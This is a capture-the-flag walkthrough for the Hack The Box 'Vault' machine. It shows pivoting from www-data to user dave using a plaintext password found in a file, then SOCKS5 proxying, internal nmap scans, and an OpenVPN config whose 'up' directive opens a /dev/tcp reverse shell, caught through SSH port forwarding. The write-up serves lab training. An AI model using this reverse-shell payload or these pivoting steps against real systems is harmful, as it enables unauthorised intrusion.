



# 15 - PrivEsc

# Home Folder
```
www-data@ubuntu:/home$ find . -type f 2>/dev/null
./alex/.profile
./alex/.dmrc
./alex/examples.desktop
./alex/Downloads/server.iso
./alex/.xsession-errors
./alex/Desktop/.root.txt.swp
./alex/.bash_history
./alex/.xsession-errors.old
./alex/.Xauthority
./alex/.bashrc
./alex/.sudo_as_admin_successful
./alex/.bash_logout
./alex/.ICEauthority
./dave/.profile
./dave/.dmrc
./dave/examples.desktop
./dave/.xsession-errors
./dave/Desktop/ssh
./dave/Desktop/key
./dave/Desktop/Servers
./dave/.bash_history
./dave/.xsession-errors.old
./dave/.Xauthority
./dave/.bashrc
./dave/.bash_logout
./dave/.root.txt.swp
./dave/.ICEauthority
```

# Dave's password
```
www-data@ubuntu:/home$ cat ./dave/Desktop/ssh
dave
Dav3therav3123
```


# SSH
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ ssh -l dave 10.10.10.109
The authenticity of host '10.10.10.109 (10.10.10.109)' can't be established.
ECDSA key fingerprint is SHA256:w4kateZsSozxs2REnC6QaP2oADamX33bSckexGsinVc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.109' (ECDSA) to the list of known hosts.

dave@10.10.10.109's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

222 packages can be updated.
47 updates are security updates.

Last login: Sun Sep  2 07:17:32 2018 from 192.168.1.11
dave@ubuntu:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)
```


# Files in Desktop

```bash
dave@ubuntu:~/Desktop$ cat key
itscominghome
dave@ubuntu:~/Desktop$ cat Servers 
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
dave@ubuntu:~/Desktop$ cat ssh 
dave
Dav3therav3123
```
 
* 192.168.122.4
* 192.168.122.5

We can try to enumerate these ip addresses though socks5 proxy 


# Socks5 proxy
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ ssh -D 1080 -l dave 10.10.10.109
```

# /etc/proxychains
```
[ProxyList]
# add proxy here ...
socks5 127.0.0.1 1080
```

# Nmap through proxychains
```
# Nmap 7.91 scan initiated Thu Jul 15 14:28:54 2021 as: nmap -sC -sV -p 631,5900,5901,5902 -o nmap/socks5.log 127.0.0.1
Nmap scan report for localhost (127.0.0.1)
Host is up (0.093s latency).

PORT     STATE SERVICE VERSION
631/tcp  open  ipp     CUPS 2.1
| http-methods: 
|_  Potentially risky methods: PUT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: CUPS/2.1 IPP/2.1
|_http-title: Home - CUPS 2.1.3
5900/tcp open  spice   (SPICE 2.2)
5901/tcp open  spice   (SPICE 2.2)
5902/tcp open  spice   (SPICE 2.2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 15 14:30:04 2021 -- 1 IP address (1 host up) scanned in 69.50 seconds
```


# Nmap on 192.168.122.4
```
# Nmap 7.91 scan initiated Thu Jul 15 14:40:57 2021 as: nmap -v -oA nmap/192-168-122-4.log 192.168.122.4
Nmap scan report for 192.168.122.4
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Jul 15 14:42:05 2021 -- 1 IP address (1 host up) scanned in 68.22 seconds
```


# vpnconfig.php



In order to access this site socks5 proxy needs to be enabled in the browser.


It probably creates an ovpn file and executes it. According to this [article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da), code execution is possible in ovpn files. 




```bash
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9001 0<&1 2>&1&'"
```

# Port forwarding
```
dave@ubuntu:~$
dave@ubuntu:~$
ssh> R:9001:127.0.0.1:9001
```

Forward 9001 to the attacker so that attacker gets the shell, it's more convenient rather than having dave receive the reverse shell.

# Shell




